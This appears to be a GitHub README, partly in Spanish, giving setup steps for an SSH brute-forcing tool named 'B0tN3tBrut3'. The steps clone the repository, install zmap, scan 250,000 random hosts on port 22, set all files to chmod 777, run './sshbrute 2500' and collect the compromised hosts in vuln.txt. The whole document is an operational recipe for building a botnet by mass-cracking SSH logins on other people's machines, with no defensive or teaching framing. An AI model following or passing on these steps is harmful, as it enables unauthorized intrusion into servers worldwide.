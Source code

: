 

  (CentOS 6.9)

 
- git clone https://github.com/YourAnonXelj/B0tN3tBrut3.git



  
  1- sh CentOS_zmap_auto_install.sh
  
      - si te sale el error "zmap: command not found" 
      
      - pon este comando export PATH="/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin:/root/bin"

  2- sh ScannerInstall.sh

  3- zmap -p22 -o mfu.txt -N 250000     //-// not mfu2.txt or mfulol.txt dont change

  4- chmod 777 *

  5-   ./sshbrute 2500 

         Result = vuln.txt

<img src="https://raw.githubusercontent.com/YourAnonXelj/B0tN3tBrut3/master/lul2.png">
